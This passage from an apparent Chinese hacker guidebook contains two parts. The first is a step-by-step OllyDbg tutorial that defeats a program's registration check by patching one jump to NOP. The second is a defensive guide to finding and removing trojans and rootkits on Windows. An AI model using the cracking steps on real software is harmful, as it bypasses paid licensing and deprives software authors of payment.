大家这次再想想看，这里的跳转能够实现吗？我们已经知道了 A 与 B 中的值是很明显不相等的，那么这个条件能够满足后面紧跟着的跳转的成立条件呢？答案也是肯定的，因为 JMP 跳转是一条很霸道的指令，它的成立是不需要任何条件的，所以形象地把它叫做“无条件跳转”指令。

##### 3、NOP 指令

这个指令很特别，它的含义说起来很绕口，简单地理解就是“无意义指令”，也就是说程序遇到了这条指令就什么事情也不做，遇到了也当没看见。但是并不会影响后面指令的运行，类似于 VB 中的“Rem”注解。

以上三个汇编指令大家一定要牢牢记住，在以后的破解学习或者实践中要很频繁地与它们打交道。为了保证大家学习的时候不犯困不头晕，理论部分的学习就到此为止。打起精神，精彩的破解实例就要开始了。

#### 5.2.3 操刀破解

理论学习太枯燥了，而且学习的效果也没有亲身体检让人记忆深刻。下面就让大家活动活动筋骨，一起来体验一下暴力破解的威力。我们已经了解了软件的基本信息，确定了软件并没有加壳，那就直接把它放进 OD 里面解剖吧！

> **X 加油站：什么是 OD**

初学破解的朋友可能还不认识它，这可是必备的超级武器，从高手到菜鸟人人都需要用到它。OD 的全称是 OLLYDBG，这是一款 32 位调试程序软件。面对一个软件我们必须想办法去了解它的“内部构造”，才有可能找到破解的突破口，而 OD 就是这样的一个工具。简单地说，OD 会把放进其中的程序大卸八块以供我们研究，怎么样？是不是很厉害！

运行 OD 后，直接把目标软件的图标拖拽到 OD 的主界面上（大家有没有发现破解中使用到的大多数工具都支持拖拽操作），接下来的分析工作就交给 OD 来完成了，分析完成后 OD 会停在以下代码处，如图 5.2。

难怪大家会对破解产生恐惧，看着这成千上万行陌生的代码谁都会觉得头晕。在这成千上万行代码中要如何才能完成破解这项神圣的任务呢？不用害怕，并不是说因为我们是菜鸟，所以看到这些代码会觉得头晕，其实高手们也是一样的。但是为什么面对同样一堆令人郁闷的代码，高手们就能够从容应对并成功地进行破解呢？在这其中是有奥秘的！毫无头绪地在成千上万行代码上进行修改肯定是行不通的，所以必须要去寻找一些线索来指引我们破解的方向。如果找对了线索，我们顺藤摸瓜很快就能够从代码的海洋中找到破解的关键点，所以正确的破解线索是非常重要的，那么哪些信息可以作为破解的线索呢？

> **X 加油站：哪些东西可以作为破解的线索呢？**

一般来说注册提示信息是最好的线索，因为这些提示信息往往都与软件的注册验证有着紧密的关系，很容易通过这些提示信息来找到关键的代码。那么要如何才能找到注册提示信息呢？要想获取软件的注册提示信息是很容易的，我们只需要运行软件后打开软件注册的窗口，在注册名、注册码这类的选项当中任意输入一些东西，什么“1234”“ABCD”之类的随便输入，输入完之后按下“注册”或者“确定”之类的按钮，因为是随意输入的内容，所以肯定是不能够成功注册软件的（如果成功了，建议你去买彩票！）。这时，软件就会弹出一个对话框告诉我们“注册失败”或者“注册码不正确”等等。没错，这些“注册失败”“注册码不正确”之类的信息就是我们所需要寻找的“注册提示信息”。大家的思维千万不要局限在注册失败的提示当中，以后分析时遇到的“注册码正确”等这类的注册成功提示信息，也是可以作为破解线索的。

## 第五章 黑客破解基础知识入门


图 5.2

知道了如何寻找线索，那我们就找找看吧。把目光从 OD 转移到软件上来，运行目标软件打开“注册窗口”，可以看到一个很明显的提示“软件未注册”以及“每局只能记两把”这样的字眼，看着真是相当的不顺眼，我们的目标就是把这些限制赶得远远的。虽然没有刚才说到的注册失败之类的提示，但是这个“未注册”的字眼已经足够作为我们破解的线索了。

确定了线索后再一次把软件丢进 OD 中分解一下，依然停在了一片代码当中。现在就来寻找刚才确定的那些线索了，要怎么在这代码的海洋中寻找“未注册”这类信息的踪迹呢？当然在这层层代码中肯定不可能直接找到的，字符串被隐藏在了隐蔽的地方，必须通过特定的方法才能够找到。

在当前的代码窗口中单击鼠标右键，在弹出的快捷菜单中依次选择“Ultra String Reference”->“Find ASCII”，就可以打开“字符串查找对话框”，如图 5.3。


图 5.3

在这里 OD 为我们寻找到软件中包含的大部分字符串信息，当然我们需要的“注册提示信息”也包含在内。


图 5.4

## 第五章 黑客破解基础知识入门

在内了。虽然内容也很多，但是细心寻找不一会儿就找到了我们想要的内容，如图 5.4。在这一段字符串中“注册成功”的提示很明显已经出现了。大家一定要灵活一点，不要死心眼地一条路走下去，遇到了更好的线索就要及时转变策略。线索也分三六九等，“注册成功”这样的提示要比“未注册”这类的信息更接近软件注册验证部分的代码。所以相较而言，“注册成功”这个线索更为直接一些。

找到了注册提示字符串后，该怎么办呢？现在就需要通过这个字符串来找到与它对应的关键代码，方法非常简单，单击字符串所在的这一行就会自动回到 OD 的主界面中，并且定位在了与字符串对应的代码上来，如图 5.5。


图 5.5

大家可能会发现，我们寻找到的“注册成功”字符串一共有两处，那么在这两处之间要如何进行选择呢？根据经验，一般都要选择第一处提示，也就是位置在上面的那一个。不过在破解的实践当中情况会出现我们预料之外的变化，所以大家一定要随时保持头脑清醒，不要被“经验”绊住自己的思路。

好了，我们来到了这一段代码之上：

```asm
00458099  |. 74 26        je    short 004580C1
0045809B  |. BA EC804500  mov   edx, 004580EC
```

```asm
; 软件已注册
004580A0  |. 8BC3         mov eax, ebx
004580A2  |. E8 C9C2FDFF  call 00434370
004580A7  |. 33D2         xor edx, edx
```

从成千上万行代码中定位到上面的五句代码已经是非常大的进步了，不过我们还可以进行更进一步的定位。此时我们看到的代码有五句，而平时破解软件只需要修改一两句代码就可以达到目的了。那么如何在这五句代码中进行更深层的定位来寻找到最为关键的那一两句代码呢？在这里给大家介绍一个小窍门：我们只需要把注册提示信息以上的代码进行保留，注册提示信息之后的代码全部删掉，这样代码的范围就可以进一步缩小了，关键代码也就渐渐浮出水面了。

具体到这个实例中，注册提示信息是“软件已注册”，该提示信息以上的代码是：

```asm
00458099  |. 74 26       je short 004580C1
0045809B  |. BA EC804500 mov edx, 004580EC ; 软件已注册
```

对应的提示信息以下的代码则是：

```asm
004580A0  |. 8BC3         mov eax, ebx
004580A2  |. E8 C9C2FDFF  call 00434370
004580A7  |. 33D2         xor edx, edx
```

根据刚才的方法，又有三句代码可以被删去了。经过这一次定位，最终的关键代码被锁定在了这两句上：

```asm
00458099  |. 74 26       je short 004580C1
0045809B  |. BA EC804500 mov edx, 004580EC ; 软件已注册
```

“革命尚未成功，同志仍需努力”，虽然关键代码已经被定位了，但是我们还得下一番功夫才能最终破解这个软件。接下来的工作就要从分析软件的代码来入手了，也就是说这段代码究竟有什么作用呢？

### X 加油站：理解代码的含义

如何理解代码的含义对于高手来说不值得一提，但是对于我们菜鸟来说就很复杂了。对于初学者来说，其实可以通过结合 OD 提示的方法来……理解代码的含义，比如 `0045809B | BA EC804500 mov edx, 004580EC`。软件已注册这一句代码的含义怎样来理解呢？可以看出 `OD` 的提示是“软件已注册”，结合这个提示我们就可以这样理解：当程序运行了这一句代码后，就会出现“软件已注册”的提示。这样理解是不是容易多了呢？（注意，这个方法有助于对代码含义的理解，但严格说来是不准确的，不过我们还是可以采取这样理解方法的）。

大家想想看，我们破解软件的目的是什么呢？就是让软件在没有经过正常注册的情况下实现成功的注册。软件注册成功的标志也无非就是通过标题栏提示、运行提示等方式来告诉我们“软件已经注册了”。回到实例中来，这里出现的“软件已注册”也恰好就是这样一类的提示信息，也就是说如果出现了“软件已注册”这样的字眼，就表示这个软件已经注册成功了，也就意味着我们成功破解了这个软件！

这样想来，问题就简单多了。现在最关键的就是要想办法让程序出现“软件已注册”这个提示，因为这个提示意味着软件成功注册。那么怎样来使程序出现这个提示呢？这就成了新的关键问题。

大家还记得刚才分析代码含义时，我们得到的结论：“`0045809B | BA EC804500 mov edx, 004580EC`”这句代码的含义就是让程序出现“软件已注册”这个信息。真是得来全不费功夫，如果让程序执行了这句代码，注册的问题不就解决了吗？大家的想法是非常正确的，软件破解最关键的思路也就是要让那些意味着软件成功注册的代码能够被执行，当然了软件作者可不希望这样，在正常情况下这些代码只有在输入了正确的注册码等之后才能被执行，然而那就意味着付费。

一般来说，软件当中的代码都是能够被执行的，只不过是需要有不同的执行条件。例如在 WORD 中，有关提示我们保存修改后文本的代码，其执行的前提就是程序发现了使用者按下了“关闭”按钮，准备退出软件。同样的道理，提示软件注册成功的这句代码也是有其特定前提条件的。我们来试着分析一下这句代码能够被运行的条件：

```asm
00458099 | 74 26            | je short 004580C1
0045809B | BA EC804500      | mov edx, 004580EC ; 软件已注册
```

这一次把分析的重点放到“`00458099 | 74 26 je short 004580C1`”这句代码上。为了方便分析，我们先把代码简化一下，在这句代码中起到实际作用的只有“`je short 004580C1`”这一部分，最核心的就是“je 004580C1”。

一看到“je 004580C1”大家有没有觉得有些熟悉，没错！它就是上文提到的“相等则跳转指令”，回忆一下相关的含义以及用法。我们知道，跳转的实现就意味着程序会跳到其它的某一个地方并去执行那里的代码。但是大家看到了，现在我们想让程序运行的代码就刚好紧跟在这个跳转指令的后面。如果跳转实现了，程序就会去一个新的地方并执行那里的代码；如果跳转不实现的话，“0045809B | BA EC804500 mov edx, 004580EC”这句代码就会被运行。面对这种情况该如何选择呢？我们当然希望“0045809B | BA EC804500 mov edx, 004580EC”这句代码被执行了，因为结合刚才的分析这句代码一旦执行软件就注册成功。

既然希望这句代码被执行，那就是完完全全地执行。也就是说不会有任何阻碍这句代码执行的因素存在，如果有阻碍的因素那就得一概扫除。


图5.6


图5.7

那么，当前有没有阻碍这句代码执行的因素呢？当然有了，而且就在我们眼前，正是“00458099 | 74 26 je short 004580C1”这个跳转有可能成为阻碍的因素。因为如果这个跳转实现了，那么程序就会不执行我们想要的那句代码，而是跳转到别的地方去。所以说我们必须扫除“00458099 | 74 26 je short 004580C1”这个不安定因素。要如何来修改呢？很简单，既然这是一个跳转，那么我们把它修改成没有用的代码不就完了吗？

没错！我们就是要把这个跳转的代码修改成没有任何作用的代码，把这个跳转废掉！一说到没有任何作用的代码，大家应该想起上文提到的“NOP”指令，但是怎样才能实现对代码的修改呢？

## X加油站：如何在OD中修改代码

首先要指出的是在 OD 中修改代码不需要通过其它的工具，OD 具有相关修改程序代码的功能，这就是传说中的“汇编功能”。在 OD 的代码窗口中选择需要进行修改的代码，然后单击鼠标右键，在弹出的快捷菜单中选择“汇编”（如图5.6）。这时会弹出一个小对话框，把对话框中的代码修改成我们需要的代码，然后单击“汇编”就可以了。在 OD 中可以清楚地看出原来的代码已经被修改了。

既然知道了如何修改，那还犹豫什么呢！通过上面的步骤把“00458099 | 74 26 je short 004580C1”这个跳转代码修改为 NOP，如图5.7，看看 OD 中修改的结果，原来的代码已经被成功修改成 NOP 了。

到了这一步，大家最关心的一定是“经过了层层的分析寻找，现在软件被成功破解了吗？”看来大家急切地需要一场胜利来鼓舞一下士气。其实软件离最终的破解只剩最后一步了，还剩下哪一步呢？我们可以看到，虽然把代码修改了，但是此时修改后的代码是没有真正写进程序当中的。也就是说，此时我们修改的代码还没有和程序融为一体。所以说最后的一步，就是要让程序与我们修改后的代码真正地融为一体，否则就会和没有修改一样。那么怎样把代码写进程序呢？

## X加油站：如何把修改的代码写进程序中

向程序中写入我们修改后的代码，需要用到 OD 的“写入程序”功能。听起来挺吓人的，其实很简单。在主界面中单击右键，在弹出的菜单中选择“复制到可执行文件”，这时会来到保存文件窗口（和 OD 的主界面很相似）。在保存文件窗口中再一次单击右键，选择“保存文件”就可以像平时保存文件那样进行操作了（如图5.8）。


图5.8

需要注意的是：

- 1、OD 默认的文件保存路径是原文件所在的目录，也就是软件的安装目录；
- 2、修改后程序的文件名尽量不要与原文件重名，因为会发生覆盖的情况。

按照上面的方法进行保存，运行我们修改后的文件看看。咦！怎么没有什么区别，当再一次打开软件的注册窗口时我们就会发现真的出现变化了！未注册的提示不见了，取而代之的是“软件已注册”；软件的注册按钮不能用……这些意味着什么呢？那还用问吗，软件已经被成功地破解了！我们的任务也圆满完成了，如图5.9！

胜利是值得庆祝的，简单地回顾一下我们就很容易发现，整个破解过程充满了探险的味道，一步一步的摸索、一点一点的分析都好像是在探索着一个未知的世界，也许这就……


图5.9

是软件破解的魅力吧！

通过实例的演示，我们可以看出“暴力破解”虽然是一种简单的破解手段，但其效果是很明显的，因而具有很高的实用性。在整个的分析过程中依次为大家介绍了 PEID 的使用、基本的汇编指令、破解线索的寻找、OD 的使用方法等等内容，涉及到了相当多的知识，希望大家能够认真地复习与练习。对于 PEID 和 OD 的详细使用方法，在 X 以前的杂志中已经有过详细的介绍了。

## 5.2 软件的注册码验证流程

软件的注册验证流程是一个非常重要的概念，因为各种不同破解的方法都是通过对“软件注册验证流程”的分析得到的。那么软件的注册验证流程是怎样的一个过程呢？简单地来说，注册验证流程使软件从记录我们输入的注册信息开始到提示注册成功与否这样一个全过程。那么在我们输入了注册信息之后，软件在做什么呢，大家参考一下图5.10所示，就容易理解了。


### 5.3 软件的限制方式

为了督促使用者通过注册的方式使用软件，软件作者在没有注册的软件中设置了诸多的限制，我们破解的目的就是要解决这些限制。所谓知己知彼百战不殆，要想在以后的学习过程中更好地学习技术，就必须先要对我们的敌人，也就是软件的限制方式有一定的了解，下面是目前常见的软件限制方式，简单地总结给大家以便参考。

#### 5.3.1 NAG窗口

关于 NAG，准确的解释就是“烦人”的意思，顾名思义，NAG 窗口就是在软件使用过程中不时弹出一个要求我们注册的窗口，软件作者希望用户经受不住这个 NAG 窗口的骚扰，继而购买软件。

#### 5.3.2 功能限制

“功能限制”这个手段比较过分，但现在也被越来越多地运用到了软件保护当中。如果你不是注册用户，就不能使用该软件的全部功能，比如不能保存软件设置，不能处理多个文件，不能使用高级功能等等。一般来说功能限制有灰色按钮和提示限制两种方式。灰色按钮方式是指特定的功能按钮呈灰色，无法使用；限制提示则是指使用某项功能的时候，弹出一个显示该功能被限制的提示。

#### 5.3.3 使用次数限制

“次数限制”就是软件作者在软件的使用次数上作出的限制。比如在使用软件时，会有明显的提示内容“本软件只能使用 XX 次”等等，每使用一次，使用次数就减少一次，幸运的话能够遇到试用次数 100 次的软件，但也有只能使用 5 次的软件。

#### 5.3.4 使用时间限制

很容易理解什么是时间限制，没有注册的软件只能够在规定的试用期内使用，如果超过了试用期就再也无法使用软件了，或者会出现很多种奇怪的限制。

## 第六章 跟我学查杀病毒和木马

### 6.1 病毒木马查杀基础篇

#### 6.1.1 网络通信的窗口——端口

端口一般分为硬件端口和软件端口，不过本文中说的端口指的是后者。软件端口是指网络中面向连接或者服务的通讯协议端口，既然病毒和木马与网络息息相关，那么我们必须也要对端口的知识有所了解才行！


图6.1

- 1、常见端口列表

系统在正常情况下开启的端口我们可以从网上找到详细的资料，限于篇幅，这里不再赘述。对于那些恶意的常见端口，我们可以通过 BluePortScan 这个扫描器查看，如图6.1。


图6.2

- 2、如何查看本地计算机所开放的端口

要查看本地计算机所开放的端口，我们可以点击“开始”→“运行”，在运行栏中输入“CMD”来打开命令提示符，然后执行 `netstat -an` 命令进行查看，如图6.2。

但是很多时候我们需要将端口与相应的进程对应查看以方便查杀病毒，虽然网上有很多的该类工具，但我个人还是认为 Fport.exe 这款工具的功能比较强大，通过它我们可以查看到每个端口对应的进程。

#### 6.1.2 程序运行的基础——进程

- 1、进程和线程的区别

进程就好像把程序装进容器里了，你可以往容器里加其它东西（比如应用程序在运行时所需的变量数据、需要引用的 DLL 文件等），这与线程是两个完全不同的概念！

一个进程可以包含若干线程（Thread），线程可以帮助应用程序同时做几件事（比如一个线程向磁盘写入文件，另一个则接收用户的按键操作并及时做出反应，互相不干扰），在程序被运行后，系统首先要做的就是为该程序进程建立一个默认线程，然后程序可以根据需要自行添加或删除相关的线程。

- 2、常见进程分析

我们简单分析几个经常与病毒木马有关的进程，希望大家可以了解一下木马和病毒常用的伎俩！“svchost.exe”进程，它是与系统启动服务有关的一个进程，比如说计算机中需要启动诸如防火墙、网络连接等服务，那么，“svchost.exe”进程就以“svchost.exe -k netsvcs”等方式带参数启动需要的模块。对于该进程，首先我们需要注意它的数量，在 WIN2000 下该进程一般有两个，在 WINXP/2003 中该进程一般有四到六个（小编：这个数字可以根据启动及禁止服务的多少来决定）；其次要注意这个进程的名字，很多病毒木马的进程都会使用“svch0st.exe”等名字，如果发现异常，一般就会证明你的电脑已经有木马进驻了！

另外，“iexplore.exe”和“explorer.exe”也是两个经常被病毒木马照顾的进程，这两个进程一个是 IE 浏览器的进程，一个是系统 GUI 界面（小编：图形界面，也就是我们常说的 Windows 窗口等等）的进程。在任务管理中，“iexplore.exe”进程数与打开的 IE 浏览器个数是相同的，而“explorer.exe”进程数只有一个。除了通过进程数目来判断系统安全外，我们还可以通过查看进程所占用的系统资源进行查看，前者一般占用 2M 左右而后者一般占用 12M 左右。最后还要注意一下程序名称所耍的花招，比如“iexpl0rer.exe”等！因为许多木马和病毒为了隐藏自己，都会在进程名称上做点手脚，比如将英文的“l”和数字的“1”，以及英文的“o”和数字的“0”混淆起来，所以大家在检查的时候要仔细留心这些名称是否正常。

#### 6.1.3 病毒木马发展趋势初探

有了以上的基础知识，下面我们来探究一下病毒木马的未来发展趋势！

- 1、木马病毒种类越来越多

未来的病毒木马种类将会越来越多，主要原因我认为有两个，第一是商业利益的驱使，游戏盗号木马将越来越猖獗，为了加快盗号木马的传播，病毒将成为传播的最好利器！第二是免杀技术的进步，就以单纯的灰鸽子来说，其实灰鸽子本身并不可怕，但是加个壳就可以达到免杀的目的了。而据我所知，网上公布的各种壳有 N 多，那么每个病毒木马的变种究竟会有多少种？看来可想而知了！

- 2、木马病毒传播方式将越来越多

随着网络速度的发展，木马病毒的传播方式也是发生了很大的变化，网页木马将会越来越疯狂，由网页木马引起的传播方式也会越来越多，比如通过流媒体传播。

- 3、木马病毒查杀将越来越复杂

这主要是因为木马隐藏技术的发展越来越快，这里我们粗浅地介绍一些木马隐藏技术的知识以方便我们更好地查杀木马。木马隐藏技术主要包括端口隐藏、进程隐藏等技术，端口隐藏木马比如 HK Shell、上兴远程控制等。进程隐藏基本上是每个木马都具有的特征，说到这里，就不得不提到进程注入技术了。最早的进程插入技术，主要通过修改注册表中的 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\Current Version\Windows\AppInit_DLLs` 就可以达到插入进程的目的，随着技术的发展，出现了 HOOK 技术，也就是钩子技术，需要调用 SetWindowsHookEx 这个 API 函数来实现，该方法在现在的木马病毒编写中也越来越流行，DLL 木马就是该类木马的精华体现！

### 6.2 查杀木马病毒一条龙

当我们碰到电脑的运行速度变慢了，比如 IE 浏览器打开网页的速度很慢，QQ 提示激活，或者登录网游时的系统 IP 提示与本机 IP 地址不同，就说明我们的电脑很有可能中木马或者中病毒了！

#### 6.2.1 杀毒软件引发的话题

当发现系统异常时，第一步要做的就是升级杀毒软件，然后扫描系统以查杀可能存在的病毒和木马，这是非常必要的。正因为很多人都习惯这种做法，所以很多情况下由于病毒感染了系统而导致无法执行可执行文件，这时我们可以将杀毒软件的文件后缀改为其它的非 exe 可执行文件类型，比如 bat、cmd 等再运行就可以了。

```cmd
assoc .exe=exefile&ftype exefile="%1" %*
```

当然有时候 bat、cmd 等文件关联也会被修改，这时我们可以在 CMD 下输入上述命令进行修复。（小编：该命令可以让 .exe 文件关联恢复，通常木马病毒为了达到运行的目的，会修改这个关联，使中毒的电脑在运行 .exe 程序时同时运行相关的病毒木马程序）为了以后能够更好地解决这类问题，我们最好是做好文件关联备份。

这里的备份需要双向备份，因为文件关联更改，我们不清楚病毒会更改哪种类型，鉴于此，我提供了两种备份的方法。

##### 第一种：使用批处理进行备份

将如下代码保存到 wjgl.bat 文件，运行后就会修复文件关联了。

```bat
ftype exefile="%1" %*
ftype cmdfile="%1" %*
ftype batfile="%1" %*
ftype regfile=regedit.exe "%1"
assoc .exe=exefile
assoc .cmd=cmdfile
assoc .bat=batfile
assoc .reg=regfile
```

##### 第二种：注册表备份

相对于第一种 bat 备份，注册表备份是一个非常好的防范木马的方法，建议在系统相对安全的状态下（一般是在系统重装之后），将系统的注册表文件全部备份，当系统出现异常或者可执行文件关联被恶意修改时，我们可以通过直接导入注册表文件的方法来实现修复！


图6.3

虽然杀毒软件有时可以帮助我们解决这个问题，但也有很多情况下查杀病毒木马不会这么简单，下面来看一下如何系统地查杀病毒。要查杀病毒或者木马，我们首先要“查”，而后才是“杀”，这“查”就是指的查找进程，结束进程！

#### 6.2.2 如何结束进程

打开“我的电脑”，依次在上面的菜单栏找到“工具”->“文件夹选项”->“查看”，找到“显示所有文件和文件夹”，在前面勾选上，如图6.3。我们通过上面提到的 Fport.exe 来确定与陌生端口对应的恶意进程，这里也需要注意 UDP 端口，因为国产木马“神气儿”已经让我们领教了 UDP 木马的威力。对于恶意进程，我们首先使用“任务管理器”结束进程，但有时候进程结束后，木马病毒进程还是会重新启动，这时需要使用 Icesword（小编：冰刃，很著名的进程检查程序）或者 syscheck（小编：小编试用后感觉非常不错的进程管理程序，还附带了一些其它的功能哦！）等工具来结束。我向大家推荐使用 syscheck，选择好恶意进程，然后选中“禁止外部线程创建”，如图6.4，这样就可以防止进程重建了。


图6.4

另外进程盾也是一款不错的工具，它也能够有效地拦截进程的重建。程序运行后的界面如图6.5所示，首先点击“开启进程盾”，然后打开“任务管理器”结束恶意进程，当外部进程再次要创建新的进程时，程序就会弹出如图6.6所示的提示，我们选择“不允许”就可以了！


图6.5


图6.6

很多时候我们找不到病毒的进程，我在前面曾经提到过，木马病毒的第一条规则就是进程隐藏，进程隐藏技术早期的方法是通过 API 函数 RegisterServiceProcess 将木马程序注册为系统服务，比如冰现在很多流行木马也使用了相同的方法，有时甚至直接替换一些系统不常用的服务，比如 alter 服务就经常被木马病毒光顾，所以我们还需要通过停止服务来让木马处于删除状态。查找系统的服务，我们可以通过在“运行”栏中输入“services.msc”查看系统中某些不常用的服务是否开启，特别要注意那些没有描述的服务，这往往就是木马程序所创建的！当然有些看起来没什么问题，名称和描述都很正常的服务，只要不处于禁用状态，都最好习惯性地点击查看下该服务关联的文件是否有异常。


图 6.7


图 6.8

但有时候很多服务通过系统自带的程序无法查看到，这时我们可以打开 syscheck 程序中的“服务管理”项。该程序的特色不仅在于服务管理一流，更重要的是当我们不熟悉某个服务的时候，可以通过右键选择“通过 Google 搜索”，从互联网上查看该服务的信息，如图 6.7！


图 6.9

结束完进程，停止了服务，就到了删除恶意文件的环节了！

#### 6.2.3 删除木马病毒文件

当我们已经知道了恶意进程后，通过 syscheck，我们选中恶意进程，然后点击“定位文件”就可以找到该文件，然后删除该文件就可以了。删除恶意文件也是一件麻烦的事，很多情况下无法正常删除，这时我们需要尝试在 CMD 下使用 `del /f xxx.exe`（小编：xxx.exe 为需要删除的文件名称或者绝对路径，如果路径中包含了空格，那么需要把整个路径用双引号括起来）进行删除。如果有时在 CMD 下也不能删除，那我们还可以借助第三方工具，比如刚才提到的 syscheck，单击“文件浏览”，找到要删除的恶意文件，点右键选择“延时删除”，如图 6.8。

另外费尔木马强力删除助手也是一款不错的软件，程序运行后的界面如图 6.9 所示；根据需要选择要进行的操作，这款工具对于 Autorun.inf 病毒特别有效，很多时候由于感染 U 盘病毒，我们无法打开磁盘，虽然可以通过修改注册表来解除限制，但是使用该工具选择“解除抑制”来恢复相对更方便。

提到删除病毒文件，就不得不说一下 DLL 木马删除的方法。DLL 木马是一种通过进程插入技术实现木马进程隐藏的恶意程序，我们可以通过 syscheck 中的“进程管理”项点击一个进程的详细路径，在模块信息中就可以详细地查看到该进程所涉及的 DLL 文件，如图 6.10。

对于某个进程的 DLL 文件，首先应该点击右键选择“查看文件”属性，通过如图 6.11 中的“创建时间”来查看该文件是否与系统文件的安装时间相近，如果不同就可以删除了。


图 6.10

对于某些不熟悉的 DLL 文件，可以通过右键菜单中的“使用 Google 搜索”来进行查看。正因为这种进程插入技术的出现，有时候我们无法结束进程，这种情况下我们就应该考虑到有可能是木马程序插入到了系统常驻程序中，比如 explorer.exe 进程。我们需要使用任务管理器结束该进程，通过在 CMD 中使用 tasklist、taskkill 或者其它第三方的工具比如 AIO 来进行操作，具体的命令使用方法，限于篇幅这里不再赘述！


图 6.11

上面虽然提到了很多方法来删除恶意文件，但是删除顽固文件本身就是一个话题，下面把一些常用的小技巧也一并附上！当你无法正常删除文件的时候，不妨试试！

##### （1）磁盘错误导致的文件无法删除

首先运行磁盘扫描，并扫描文件所在分区，扫描前确定已选上修复文件和坏扇区，全面扫描所有选项，扫描后再删除文件。

- 2. **预读机制**：某些视频、图像文件播放中断或正在预览时会造成无法删除。在“运行”栏中输入 `REGSVR32 /U SHMEDIA.DLL` 来注销掉预读功能，或在注册表中删除 `[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{87D62D94-71B3-4B9A-9489-5FE6850DC73E}\InProcServer32]` 键值，然后即可删除文件。
- 3. **关闭防火墙**：由于反病毒软件在查病毒时也会导致执行删除时提示文件正在使用，这时可试着停止或关闭杀病毒软件后再进行删除。
- 4. **Office、WPS 系列软件**：Office、WPS 的非法关闭也会造成文件无法删除或改名，重新运行该程序，然后正常关闭，再删除文件。
- 5. **借助 WinRAR 删除恶意文件**：右击要删除的文件夹，选择“添加到压缩文件”，在弹出的对话框中选中“压缩后删除源文件”，随便写个压缩包名，点击“确定”按钮即可。
- 6. **权限问题**：如果是 Windows 2000/XP/2003 操作系统，而且你为某些文件设置了权限，请先确定是否有权限删除这个文件或文件夹。
- 7. **可执行文件的删除**：当可执行文件的映像或程序所调用的 DLL 动态链接库还在内存中未释放，删除时也会提示文件正在使用。解决方法是在 CMD 下删除系统的页面文件（Win98 中是 Win386.SWP，Win2000/XP 中是 pagefile.sys）。
- 8. **文件粉碎法**：使用文件粉碎机，比如 Windows 优化大师或 File Pulverizer，可以彻底删除一些顽固文件。
- 9. **借助小软件——UNLOCKER**：至于这个小程序的用法，在以前的黑客 X 档案中曾不止一次地提到，这里不再赘述！（小编：有些在 `C:\Windows\` 或者 `C:\Windows\System32\` 下的木马病毒程序如果无法删除，可以尝试“剪切”到其它位置然后再删除！当然，前提是你已经停止了该程序的运行或者该 DLL 文件的关联）

#### 6.2.4 系统恢复

文件关联的修复我们在前面已经说过了，这里还需要注意一些后遗症。很多时候我们会碰到杀毒后导致的系统错误，基本上所有该类问题的原因都在于杀毒过程中的文件破坏。大家可以根据错误提示，找到需要修复的程序，通过在系统安装盘或者其他人的计算机提取完整文件进行替换！

#### 6.2.5 Rootkit 清除

Rootkit 是木马病毒隐藏的巅峰之作，Rootkit 的原理就是替换系统底层服务，以达到常驻内存的目的。在安全焦点上有很多该话题的资料，有兴趣的不妨下载下来研究一下！这里只教大家一种通用的 Rootkit 清除方法——故障恢复控制台清除法，具体方法如下：

- 1. 使用 Windows 的启动光盘引导系统，然后启动的时候选择“用命令恢复控制台修复”。
- 2. 在 Windows 运行的时候安装故障恢复控制台。具体的方法：先将 WINXP 系统的安装启动盘放入光驱，在开始菜单中选择“运行”，打开“运行”对话框，输入 `F:\i386\winnt32.exe /cmdcons`（假如光驱盘符是 F:）。当系统提示你是否安装命令恢复控制台的时候，选择“是”就会出现安装向导，之后选择跳过网络更新，等文件复制完毕，就安装成功了。重新启动计算机就会出现“Microsoft Windows Recovery Console”这个选项了！如果是 WIN2K，直接把安装盘放到光驱，等会出现提示是要安装还是修复，按“R”选择修复，然后依次选择“故障恢复控制台”，进入后输入管理员密码就可以进入系统了。这里需要注意：WIN2K 下如果您是为了安全把 administrators 组和管理员账户 administrator 更改为别的名字，比如把 administrators 组改为 hacker，把管理员账户 administrator 改为 sa，这种情况下无论怎么输入密码都无法登录，因为该控制台的默认账户是 administrator。如果你修改了默认账户，那么该种方法将不适合，需要先正常启动进入 Windows，将默认的管理员组和管理员修改回来。

这里还要注意一点，在“故障恢复控制台”提示符下不能使用“cd\”命令更改到根目录，必须使用“cd..”命令进行目录切换。

```bash
##### 假定感染文件是 services.exe
copy f:\i386\services.ex_ c:\Windows\services.exe
##### WIN2K 下
copy f:\i386\services.ex_ c:\winnt\services.exe
```

这时候系统会提示是否覆盖文件，选择“Y”按 Enter。

重启计算机后，Rootkit 就被我们消除了！（小编：这样做的意义在于替换当前系统的系统服务列表为 Windows 初装时的默认系统服务列表，以达到将 Rootkit 建立或者修改的系统服务删除的目的）

大家在实际操作过程中需要注意，故障恢复控制台默认情况下只能访问系统根目录、Windows 安装目录等。当访问其他的文件夹的时候总会提示“访问遭到拒绝”，我们可以在运行中输入 **gpedit.msc** 打开组策略，依次找到“本地计算机策略”——“计算机配置”——“Windows 设置”——“安全设置”——“本地策略”——“安全选项”，把“故障恢复控制台：允许对所有驱动器和文件进行软盘复制和访问”设置为“已启用”，如图 6.12 所示！


图 6.12

然后再次进入到故障恢复控制台，输入以下命令设置就可以突破上面所说的限制了！

```bash
set allowwildcards = true
set allowallpaths = true
set allowremovablemedia = true
```

好了，文章就到这里！希望大家能够从本文中学习到一些有用的经验，在以后对付木马病毒时不至于手足无措。